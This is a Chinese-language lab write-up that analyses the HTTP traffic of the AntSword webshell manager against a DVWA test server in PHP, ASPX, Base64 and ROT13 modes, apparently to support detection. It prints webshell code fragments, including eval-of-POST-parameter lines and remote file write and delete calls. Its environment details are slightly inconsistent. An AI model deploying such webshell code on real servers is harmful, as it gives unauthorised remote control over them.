# 蚁剑（AntSword）

## 一、工具介绍

### 1.1 蚁剑简介

蚁剑（AntSword）是一款开源的跨平台 WebShell 管理工具，主要用于安全测试环境下对 Web 服务器进行管理。

蚁剑通过连接目标服务器上的 WebShell，实现对目标环境的远程操作，包括：

- 文件管理
- 命令执行
- 数据库管理
- 虚拟终端操作

与传统远程控制工具不同，蚁剑主要依赖 Web 服务环境，通过 HTTP/HTTPS 协议与目标服务器进行通信。

---

### 1.2 工具工作原理

蚁剑采用客户端与服务端分离的架构。

其中：

- 客户端：运行在测试人员机器上，用于发送控制指令；
- 服务端：部署在目标服务器中的 WebShell 文件，用于接收并执行客户端请求。


假设通信过程如下：

```
Kali Linux (AntSword客户端)
        |
        |
      HTTP请求
        |
Windows10 (Apache + PHP + DVWA)
        |
PHP WebShell
```

蚁剑客户端向 WebShell 发送 HTTP 请求，将需要执行的操作封装在请求数据中，服务器执行后返回对应结果。

---

### 1.3 实验环境

| 类型         | 环境                    |
| ------------ | ----------------------- |
| 攻击机       | Windows 11              |
| 目标机       | Windows10               |
| 远程控制工具 | AntSword                |
| 靶场环境     | DVWA                    |
| Web环境      | phpStudy + Apache + PHP |
| 抓包工具     | Wireshark               |


网络环境：

```
攻击端：
Windows 11

目标端：
Windows10

通信协议：
HTTP
```

---

## 二、通信流量

为了获取蚁剑通信过程中的原始网络数据，使用 Wireshark 对 Windows 11 网络接口进行监听。

开始抓包后，在蚁剑客户端执行以下操作：

1. 连接 WebShell；
2. 打开目标服务器文件管理；
3. 查看目录信息；
4. 增删改查文件。

---

## 三、流量分析

用 Wireshark 对蚁剑客户端与目标服务器之间产生的 HTTP 通信流量进行分析。

由于不同 WebShell 类型和编码方式会导致通信数据格式存在差异，因此分别对 PHP Default、ASPX Default、PHP Base64、PHP ROT13 四种 WebShell 通信方式进行抓包分析，通过目录浏览、文件读取、文件上传、文件修改、文件删除等操作，分析不同操作对应的网络流量特征。

### 3.1 PHP Default通信流量分析

#### 3.1.1 WebShell连接过程

在 PHP Default 模式下，蚁剑客户端通过 HTTP POST 请求与目标服务器中的 WebShell 文件建立通信。

通过 Wireshark 分析可以发现，蚁剑向目标服务器发送如下请求：

```http
POST /dvwa/hackable/uploads/shell.php HTTP/1.1
Host: 192.168.126.131
Content-Type: application/x-www-form-urlencoded
```



该请求的数据存放在 HTTP Body 中，其中包含参数 `pass`，参数内容为经过 URL 编码后的 PHP 执行代码。通过 URL 解码后可以发现，请求内容包含：

```
@ini_set("display_errors","0");
@set_time_limit(0);
```

PHP 代码用于初始化 WebShell 环境并执行客户端发送的控制指令。服务器收到请求后执行对应 PHP 代码，并返回 HTTP 200 响应：

```
HTTP/1.1 200 OK
X-Powered-By: PHP/7.3.4
```

响应内容中包含：

```
C:/phpstudy_pro/WWW/dvwa/hackable/uploads
Windows NT DESKTOP-NLK64FD
```

说明蚁剑已经成功连接 WebShell。

#### 3.1.2 目录浏览操作分析

在完成 WebShell 连接后，使用蚁剑文件管理功能浏览目标服务器目录时，客户端会向 WebShell 发送 HTTP POST 请求。



该请求中包含目录读取相关 PHP 代码。

其中：

```php
$F=@opendir($D);
while($N=@readdir($F))
```

表示服务器端脚本会打开指定目录，并遍历目录中的文件信息。同时，请求参数中包含经过编码处理的目录路径：

```
C:/phpstudy_pro/WWW/dvwa/hackable/uploads/
```

服务器接收到请求后，对目标目录进行读取，并返回目录中的文件信息。

#### 3.1.3 文件上传操作分析

在蚁剑文件管理功能中执行文件上传操作时，客户端会向 PHP WebShell 发送 HTTP POST 请求，将待上传文件的数据发送至服务器。



可以发现请求中包含两个主要参数：

```text
v470bf24c50002
jd359531e67eb6
```

其中，参数 `v470bf24c50002` 用于保存目标文件路径。该参数经过 Base64 编码，服务器端通过以下代码进行解码：

```
$f=base64_decode(substr($_POST["v470bf24c50002"],2));
```

解码后可以得到上传目标路径：

```
C:/phpstudy_pro/WWW/dvwa/hackable/uploads/hello.txt
```

另一个参数 `jd359531e67eb6`用于保存上传文件内容。服务器端通过下面函数打开目标文件并写入上传数据。

```
fopen($f,"a")
fwrite()
```

服务器返回 `2935f20cde51`表示文件写入操作执行成功。

#### 3.1.4 文件修改操作分析

在蚁剑文件管理功能中修改目标文件内容时，客户端会向 WebShell 发送 HTTP POST 请求。



请求中包含文件修改后的内容：

```
68656C6C6F0D0A
```

服务器端通过下面函数以追加模式打开目标文件，并将上传的数据写入服务器文件。

```
fopen($f,"a")
fwrite()
```

服务器返回 `1`表示文件写入成功。

#### 3.1.5 文件读取操作分析

在蚁剑文件管理功能中查看目标服务器文件内容时，客户端会向 WebShell 发送 HTTP POST 请求，请求读取指定文件。



服务器通过下面函数以读取模式打开文件：

```
$fp=@fopen($F,"r");
```

并通过下面函数将文件内容返回给客户端：

```
readfile($F);
```

响应内容中包含目标文件源码为：

```
<?php
phpinfo();
?>
```

说明蚁剑已经成功读取服务器端文件内容。

#### 3.1.6 文件删除操作分析

在蚁剑文件管理功能中执行文件删除操作时，客户端会向 PHP WebShell 发送 HTTP POST 请求。



WebShell 使用下面函数删除目标文件：

```
unlink($F)
```

同时，代码中还包含下面函数用于删除目录：

```
rmdir()
```

服务器返回 `1` 表示文件删除操作执行成功。


### 3.2 ASPX Default通信流量分析

#### 3.2.1 WebShell连接过程

在 ASPX Default 模式下，蚁剑客户端通过 HTTP POST 请求与目标服务器中的 ASPX WebShell 文件建立通信。

通过 Wireshark 分析可以发现，蚁剑向目标服务器发送如下请求：

```http
POST /dvwa/hackable/uploads/shell.aspx HTTP/1.1
Host: 192.168.126.131
Content-Type: application/x-www-form-urlencoded
```



请求数据中包含参数：

```
cmd=Response.Write(...)
```

其中包含经过 Base64 编码的 ASP.NET 执行代码。

服务器端通过下面函数对代码进行解码，并执行对应操作：

```
System.Convert.FromBase64String()
```

解码后的代码主要用于获取服务器环境信息，包括：

```
System.IO.Directory.GetLogicalDrives()
Environment.OSVersion
Environment.UserName
```

服务器返回 HTTP 200 响应：

```
HTTP/1.1 200 OK
Server: Microsoft-IIS/10.0
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
```

响应内容中包含：

```
C:\inetpub\wwwroot\dvwa\hackable\uploads
Microsoft Windows NT 10.0.18363.0
DESKTOP-NLK64FD$
```

说明蚁剑已经成功连接 ASPX WebShell，并获取目标服务器环境信息。

#### 3.2.2 目录浏览操作分析

在完成 ASPX WebShell 连接后，通过蚁剑文件管理功能浏览目标服务器目录时，客户端会向 ASPX WebShell 发送 HTTP POST 请求。



通过分析请求数据可以发现，请求参数中包含经过 Base64 编码的目标目录路径。

服务器端通过：

```csharp
System.Convert.FromBase64String()
```

对请求参数进行解码，获取实际访问目录。

解码后的目标路径为：

```
C:\inetpub\wwwroot\dvwa\hackable\uploads\
```

随后 WebShell 使用 ASP.NET 中的文件操作类进行目录遍历：

```
System.IO.DirectoryInfo
DirectoryInfo.GetDirectories()
DirectoryInfo.GetFiles()
```

其中：

- `DirectoryInfo` 用于获取目标目录信息；
- `GetDirectories()` 用于获取目录下的子目录；
- `GetFiles()` 用于获取目录下的文件列表。

服务器返回 HTTP Response，其中包含目标目录中的文件信息：

```
hello.txt
shell.aspx
```

同时返回文件修改时间、大小以及属性信息：

```
hello.txt    2026-08-12 14:41:06    7    Archive
shell.aspx   2026-08-12 14:22:05    68   Archive
```

说明蚁剑已经成功完成目录浏览操作。

#### 3.2.3 文件上传操作分析

在蚁剑文件管理功能中执行文件上传操作时，客户端会向 ASPX WebShell 发送 HTTP POST 请求。



通过分析 HTTP 请求内容可以发现，请求参数中包含两个重要信息：

1. 目标文件保存路径；
2. 上传文件内容。


其中 `fce8f281a5dbeb` 参数用于保存目标文件路径。

另一个参数 `nc33cd6fc691dc` 用于保存上传的数据。

该数据以十六进制形式传输：

```
68656C6C6F0D0A
```

转换后对应文件内容：

```
hello
```

服务器端随后使用 ASP.NET 文件流完成写入操作：

```
System.IO.FileStream
```

并通过下面函数将数据写入目标文件：

```
fs.Write()
```

执行完成后，服务器返回 HTTP Response，响应内容 `1` 表示文件上传成功。

#### 3.2.4 文件读取操作分析

在蚁剑文件管理功能中查看目标服务器文件内容时，客户端会向 ASPX WebShell 发送 HTTP POST 请求，请求读取指定文件。



ASPX WebShell 使用 ASP.NET 文件读取类：

```
System.IO.StreamReader
```

创建文件读取流，并通过下面函数读取目标文件全部内容：

```
ReadToEnd()
```

服务器执行完成后，将文件内容通过 HTTP Response 返回给蚁剑客户端：

```
hello
hello
```

说明蚁剑已经成功读取服务器端文件内容。

#### 3.2.5 文件修改操作分析

在蚁剑文件管理功能中修改目标服务器文件内容时，客户端会向 ASPX WebShell 发送 HTTP POST 请求。



ASPX WebShell 使用 ASP.NET 文件写入类：

```
System.IO.StreamWriter
```

创建文件写入流：

```
new System.IO.StreamWriter(P,false,Encoding.Default)
```

其中：

- `StreamWriter` 用于向文件写入数据；
- 参数 `false` 表示覆盖原文件内容，而不是追加。

随后通过下面函数将新的文件内容写入目标文件：

```
m.Write()
```

请求中另一个参数 `nc33cd6fc691dc` 保存需要写入的数据，经过 Base64 解码后得到：

```
hello
```

服务器执行完成后返回 HTTP Response，响应内容 `1` 表示文件修改操作成功。

#### 3.2.6 文件删除操作分析

在蚁剑文件管理功能中执行文件删除操作时，客户端会向 ASPX WebShell 发送 HTTP POST 请求。



ASPX WebShell 根据目标类型执行不同删除操作：

```
System.IO.Directory.Delete(P,true)
System.IO.File.Delete(P)
```

其中：

- `Directory.Delete()` 用于删除目录；
- `File.Delete()` 用于删除文件。

本次操作目标为文件：

```
hello.txt
```

服务器执行删除操作后，通过 HTTP Response 返回执行结果，响应内容 `1` 表示文件删除成功。


### 3.3 PHP Base64编码流量分析

#### 3.3.1 上传文件请求分析

PHP Base64 模式下，蚁剑客户端与 PHP WebShell 之间的通信数据经过 Base64 编码处理。

实验中通过文件上传操作分析该模式下的流量特征。



通过分析 HTTP POST 请求可以发现，请求中包含经过编码处理的 PHP 执行代码：

```php
@eval(@base64_decode($_POST['u7adbbb55081de']))
```

该代码表示服务器端首先通过 `base64_decode()` 对客户端发送的数据进行解码，然后通过 `eval()` 执行解码后的 PHP 代码。

在文件上传过程中，请求参数 `v34a5dba143203` 用于保存目标文件路径。

服务器端通过：

```
base64_decode()
```

对路径进行解码。

解码后的目标路径为：

```
C:/phpstudy_pro/WWW/dvwa/hackable/uploads/hello.txt
```

另一个参数 `cc97a9e8b661db` 用于保存上传文件内容。

请求中的数据：

```
68656C6C6F0D0A
```

经过解析后对应：

```
hello
```

随后 PHP WebShell 使用下面函数打开目标文件并写入上传数据：

```
fopen($f,"a")
fwrite()
```

服务器执行完成后返回 HTTP Response，响应内容：

```
9ddc0MQ==ecd5fb0
```

其中返回数据经过 Base64 编码处理。


### 3.4 PHP ROT13编码流量分析

#### 3.4.1 上传文件请求分析

PHP ROT13 模式下，蚁剑客户端与 PHP WebShell 通信时，会对 WebShell执行代码进行 ROT13 编码处理。



通过分析 HTTP POST 请求可以发现，请求中存在如下代码：

```php
@eval(@str_rot13($_POST['r5d4dde40e3fc8']))
```

该代码表示服务器端首先通过 `str_rot13()` 对接收到的数据进行 ROT13 解码，然后通过 `eval()` 执行解码后的 PHP 代码。

在文件上传过程中，请求参数 `md1fdd489a2945` 用于保存目标文件路径。

服务器端通过：

```
str_rot13()
```

对客户端发送的数据进行 ROT13 解码。

解码后的目标路径为：

```
C:/phpstudy_pro/WWW/dvwa/hackable/uploads/hello.txt
```

另一个参数 `e5918fd380b0c6` 保存上传文件内容。

请求中的数据 `68656C6C6F0D0A` 经过解析后对应：hello，随后 PHP WebShell 使用下面函数打开目标文件并写入上传内容：

```
fopen($f,"a")
fwrite()
```

服务器执行完成后返回 HTTP Response，响应内容：

```
6e39e0945611b84a86
```

其中返回结果同样经过 ROT13 处理。


## 四、总结

通过本次对蚁剑（AntSword）通信流量的分析，可以发现 WebShell 管理工具虽然在功能上表现为文件管理等操作，但其本质是客户端与目标服务器中的 WebShell 文件之间通过 HTTP 请求进行数据交互。

